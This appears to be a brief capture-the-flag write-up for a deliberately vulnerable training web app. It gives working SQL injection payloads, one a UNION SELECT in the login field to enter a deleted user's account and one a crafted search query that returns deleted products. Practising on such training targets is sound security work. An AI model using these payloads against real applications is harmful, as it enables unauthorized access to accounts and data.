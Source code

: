 # Injections

## Chris' account

At login:

```
' UNION SELECT * from Users WHERE deletedAt IS NOT NULL --
```

## DB Schema (no spoil)

It solved another challenge at the same time: "user's credentials"

## Get all products, included the deleted ones

```
http://localhost:3000/rest/products/search?q='))--
```